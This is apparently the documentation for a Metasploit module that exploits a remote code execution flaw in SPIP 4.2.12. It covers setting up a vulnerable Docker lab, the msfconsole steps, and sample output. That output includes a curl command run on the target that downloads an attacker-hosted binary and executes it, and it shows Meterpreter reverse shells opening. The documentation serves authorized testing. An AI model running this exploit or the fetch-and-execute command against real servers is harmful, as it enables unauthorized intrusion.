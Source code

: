 ## Vulnerable Application

This Metasploit module exploits a Remote Code Execution vulnerability in SPIP versions up to and including 4.2.12.
The vulnerability occurs in SPIP’s templating system where it incorrectly handles user-supplied input, allowing an attacker
to inject and execute arbitrary PHP code.
This can be achieved by crafting a payload that manipulates the templating data processed by the `echappe_retour()` function,
which invokes `traitements_previsu_php_modeles_eval()`, containing an `eval()` call.

To replicate a vulnerable environment for testing:

1. Install SPIP using the provided Docker Compose configuration.
2. Use the image `ipeos/spip:4.2.12` to ensure the environment is vulnerable.
3. Verify that the SPIP instance is accessible on the local network.

### Docker Setup

Use the following Docker Compose file to set up the environment:

```yaml
version: '3.8'

services:
  db:
    image: mariadb:10.5
    restart: always
    environment:
      - MYSQL_ROOT_PASSWORD=MysqlRootPassword
      - MYSQL_DATABASE=spip
      - MYSQL_USER=spip
      - MYSQL_PASSWORD=spip
    volumes:
      - mysql-data:/var/lib/mysql

  app:
    image: ipeos/spip:4.2.12
    restart: always
    depends_on:
      - db
    environment:
      - SPIP_SITE_ADDRESS=http://localhost:8880
      - SPIP_DB_SERVER=db
      - SPIP_DB_LOGIN=spip
      - SPIP_DB_PASS=spip
      - SPIP_DB_NAME=spip
      - SPIP_AUTO_INSTALL=1
    ports:
      - 8880:80
    volumes:
      - spip-data:/var/www/html

volumes:
  spip-data:
  mysql-data:
```

This Docker Compose file configures a SPIP environment with a MariaDB backend, enabling automatic installation.
Here are the correct setup details:

- **SPIP Access URL:** `http://localhost:8880`
- **Database Configuration:** Utilizes MariaDB, as specified by the database service setup.
- **Automatic Installation:** Enabled via `SPIP_AUTO_INSTALL=1`.

After launching the Docker container, SPIP will be accessible at `http://localhost:8880`.
The automatic installation will simplify the initial setup, allowing you to start using SPIP without manual configuration.

If you decide to disable automatic installation by setting `SPIP_AUTO_INSTALL` to `0`, you will need to manually configure SPIP.
To do this, after starting the container, navigate to `http://localhost:8880/ecrire` to access the SPIP web installation panel.

### Non-Docker Setup

If you prefer not to use Docker, you can manually set up SPIP with the following commands:

```bash
wget https://files.spip.net/spip/archives/spip-v4.2.12.zip
unzip spip-v4.2.12.zip
cd spip-v4.2.12
php -S 0.0.0.0:8000
```

Accessible at `http://localhost:8000`.

## Verification Steps

1. Set up a SPIP instance with the specified Docker environment.
2. Launch `msfconsole` in your Metasploit framework.
3. Use the module: `use exploit/multi/http/spip_porte_plume_previsu_rce`.
4. Set `RHOSTS` to the local IP address or hostname of the target.
5. Configure necessary options such as `TARGETURI`, `SSL`, and `RPORT`.
6. Execute the exploit using the `run` or `exploit` command.
7. If the target is vulnerable, the module will execute the specified payload.

## Options

No additional options are required for basic exploitation.

## Scenarios

### Successful Exploitation Against Local SPIP 4.2.12

**Setup**:

- Local SPIP instance with version 4.2.12.
- Metasploit Framework.

**Steps**:

1. Start `msfconsole`.
2. Load the module:
```
use exploit/multi/http/spip_porte_plume_previsu_rce
```
3. Set `RHOSTS` to the local IP (e.g., 127.0.0.1).
4. Configure other necessary options (TARGETURI, SSL, etc.).
5. Launch the exploit:
```
exploit
```

**Expected Results**:

With `php/meterpreter/reverse_tcp`:

```
msf exploit(multi/http/spip_porte_plume_previsu_rce) > run http://127.0.0.1:8000

[*] Started reverse TCP handler on 192.168.1.36:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] SPIP Version detected: 4.2.12
[+] SPIP version 4.2.12 is vulnerable.
[*] Porte plume plugin version detected: 3.1.5
[+] The target appears to be vulnerable. Both the detected SPIP version (4.2.12) and bigup version (3.1.5) are vulnerable.
[*] Preparing to send exploit payload to the target...
[*] Sending exploit payload to the target...
[*] Sending stage (39927 bytes) to 192.168.1.36
[*] Meterpreter session 4 opened (192.168.1.36:4444 -> 192.168.1.36:43974) at 2024-09-08 06:46:50 +0200

meterpreter > sysinfo 
Computer    : linux
OS          : Linux linux 5.15.0-119-generic #129-Ubuntu SMP Fri Aug 2 19:25:20 UTC 2024 x86_64
Meterpreter : php/linux
```

With `cmd/linux/http/x64/meterpreter/reverse_tcp`:

```
msf exploit(multi/http/spip_porte_plume_previsu_rce) > run http://127.0.0.1:8000

[*] Command to run on remote host: curl -so ./gYBuGbOLFH http://192.168.1.36:8080/LoPlnjEpeOexZNVppn6cAA; chmod +x ./gYBuGbOLFH; ./gYBuGbOLFH &
[*] Fetch handler listening on 192.168.1.36:8080
[*] HTTP server started
[*] Adding resource /LoPlnjEpeOexZNVppn6cAA
[*] Started reverse TCP handler on 192.168.1.36:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] SPIP Version detected: 4.2.12
[+] SPIP version 4.2.12 is vulnerable.
[*] Porte plume plugin version detected: 3.1.5
[+] The target appears to be vulnerable. Both the detected SPIP version (4.2.12) and bigup version (3.1.5) are vulnerable.
[*] Preparing to send exploit payload to the target...
[*] Sending exploit payload to the target...
[*] Client 192.168.1.36 requested /LoPlnjEpeOexZNVppn6cAA
[*] Sending payload to 192.168.1.36 (curl/7.81.0)
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 192.168.1.36
[*] Meterpreter session 5 opened (192.168.1.36:4444 -> 192.168.1.36:60244) at 2024-09-08 06:47:47 +0200

meterpreter > sysinfo 
Computer     : 192.168.1.36
OS           : LinuxMint 21.3 (Linux 5.15.0-119-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
```

- The module successfully exploits the vulnerability and opens a Meterpreter session on the target.

**Note**: Ensure the SPIP instance is correctly configured and running in the Docker environment for the exploit to work as expected.

